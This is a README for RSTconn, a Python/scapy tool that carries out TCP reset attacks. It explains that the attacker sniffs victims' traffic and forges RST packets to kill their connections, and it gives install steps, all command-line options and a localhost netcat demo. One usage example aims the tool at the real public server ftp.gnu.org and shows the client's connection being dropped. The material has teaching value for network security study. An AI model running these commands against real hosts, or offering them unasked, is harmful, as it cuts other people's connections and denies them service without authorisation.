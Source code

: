RSTconn
-------

A TCPKill is a utility that implements a **TCP reset attack**.
RSTconn works for both IPv4 and IPv6 and is written in python and scapy.

How RSTconn works
-------------

RESET is a flag in TCP packets to indicate that the connection is not longer working.
If any of the two participants in a TCP connection send a packet
contains such a RESET flag, the connection will be closed immediately.

Thus it can be use to attack TCP connections once the attacker can forge
TCP packets from any of the two parties if he or she know their IPs, ports
and the sequence number of current TCP connection.

The attack can be used to make certain users to fail to use certain
network services based on TCP if we know the information above.

In practice, we should eavesdrop the victims’ communications to get
their IPs, ports and the sequence number.

We do it by filtering the TCP packets and find the newest packets that we want to attack.


Setup
-----

````
pip install rstconn
````

Usage
-----

````
rstconn kills network connections.

optional arguments:
  -h, --help            show this help message and exit
  --iface {lo,enp0s25,lxcbr0,docker0,br-d316e57def52,vethd4f41f0,veth6fa5336, ...}, -i {...}
                        Interface where to listen to
  --server-ip SERVER_IP, -sip SERVER_IP
                        IPv4 or hostname
  --client-ip CLIENT_IP, -cip CLIENT_IP
                        IPv4 or hostname
  --server-port SERVER_PORT, -p SERVER_PORT
                        Server port
  --packet-count PACKET_COUNT, -pc PACKET_COUNT
                        sends N RST packets
  --seq-jitter SEQ_JITTER, -sj SEQ_JITTER
                        Set seq_jitter to be non-zero in order to prove to yourself that the
                        sequence number of a RST segment does indeed need to be exactly equal
                        to the last sequence number ACK-ed by the receiver
  --ignore-syn, -is     if a Packet has SYN flag, not sending RST
  --window-size WINDOW_SIZE, -ws WINDOW_SIZE
                        Window size
  -d {CRITICAL,ERROR,WARNING,INFO,DEBUG}, --debug {CRITICAL,ERROR,WARNING,INFO,DEBUG}
                        Debug level, see python logging; defaults to INFO if omitted
  -m, --monitor         Just sniff traffic without sendin RST
  -v, --version         Print version and exit

````

RSTconn listens for the matching connections and than sends a
number of SYN/ACK and RST packets to the client to get the connection be killed.

The number of packets is configurable by `--packet-count`, `--iface` and
`--server-ip` and `--server-port` are related to the local server port to be listen on.

````
rstconn -i lo --server-ip 127.0.0.1 --server-port 8000 --packet-count 50
````

Demo
----

````
apt install netcat
````

- Setup TCP connection. In one terminal window run `nc -nvl 8000` to set up a server
- In another terminal window run `nc 127.0.0.1 8000` to connect to the server
- In a third window run `rstconn` to run our sniffing program

You should see the sniffing program log some output, send a RST packet, and the nc connection should be broken.

If you want to test rstconn in IPv6, use instead:

- `nc ::1 8000`
- `nc -nvl ::1 8000`
- `rstconn -i lo --server-ip "::1" --server-port 8000 -pc 33`

Usage examples
--------------

Reset connections to ftp.gnu.org
````
rstconn -i enp0s25 --server-ip ftp.gnu.org
````

on the client side we'll see
````
ftp> ls
421 Service not available, remote server has closed connection
````

without server/client ip, using only the port

````
rstconn -i lo --server-port 8000
````

Credits
-------

- https://gist.github.com/spinpx/263a2ed86f974a55d35cf6c3a2541dc2
- https://github.com/robert/how-does-a-tcp-reset-attack-work


References
----------

- Watson, P.: Slipping in the Window: TCP Reset attacks. (2004)
